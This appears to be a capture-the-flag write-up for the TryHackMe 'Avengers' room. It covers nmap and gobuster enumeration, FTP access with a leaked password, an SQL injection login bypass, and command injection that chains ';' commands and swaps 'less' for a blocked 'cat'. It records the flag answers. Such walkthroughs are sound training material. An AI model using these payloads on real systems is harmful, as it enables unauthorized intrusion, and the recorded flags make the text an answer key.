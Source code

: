 #SQL #RCE #Web 

- https://tryhackme.com/room/avengers


```
nano /etc/hosts
10.10.62.46 avengers.thm

# nmap 

21/ftp open
22/ssh
80/http

# gobuster



```
















`10.10.251.99:80`
## Cookies

HTTP Cookies is a small piece of data sent from a website and stored on the user's computer by the user's web browser while the user is browsing.
- login info
- items in shopping cart 
- language preferences 
- advertisers track you via cookies from websites you visit
- right click > inspect > Storage > Cookies

On the deployed Avengers machine you recently deployed, get the flag1 cookie value.
- `flag1 : cookie_secrets`

## HTTP Headers

HTTP Headers let a client and server pass information with an HTTP request or response. Header names and values are separated by a single colon and, are an integral part of the HTTP protocol.
- POST requests
- GET requests
- inspect > Network > refresh page > clicl in `/` > Headers > Response Headers 
  
Look at the HTTP response headers and obtain flag 2.
- `flag 2 : headers_are_important`

## Enumeration & FTP

scan the machine with nmap (a network scanner) and access the FTP service using reusable credentials.

`nmap 10.10.251.99`
- 21 ftp
- 22 ssh
- 80 http

source code `/rocket.jpg` Groot asks if someone can reset his password is `iamgroot` 

We've accessed the web server, let's now access the FTP service. If you read the Avengers web page, you will see that Rocket made a post asking for Groot's password to be reset, the post included his old password too!

- `ftp 10.10.251.99`
- `groot : iamgroot`
- passive > ls > cd files
- `get flag3.txt` > exit
- cat flag3.txt
- ` 8fc651a739befc58d450dc48e1f1fd2e `

## GoBuster 

GoBuster is a tool used to brute-force URIs (directories and files), DNS subdomains and virtual host names. For this machine, we will focus on using it to brute-force directories

Lets run GoBuster with a wordlist (on Kali they're located under `/usr/share/wordlists`):
- `gobuster dir -u http://10.10.251.99 -w /usr/share/wordlists/dirb/common.txt`
- `/usr/share/wordlists/dirbuster/directory-lists-2.3-small.txt`
- `/portal` = login

## SQL Injection

SQL Injection is a code injection technique that manipulates an SQL query. You can execute your own SQL that could destroy the database, reveal all database data (such as usernames and passwords) or trick the web server in authenticating you.

`SELECT * FROM Users WHERE username = {User Input} AND password = {User Input 2}`

` ' or 1=1-- `  for username and password

```
SELECT * FROM Users WHERE username = `admin` AND password = `' 1=1`
```

signed with simple SQLi
- page source = 223

## Remote Code Execution

You should be logged into the Jarvis access panel! Here we can execute commands on the machine

- ls
- `cd ../; ls` = flag5.txt
- `cd ../; ls; cat flag5.txt` no cat allowed
- `cd ../; ls; less flag5.txt`
- ` d335e2d13f36558ba1e67969a1718af7 `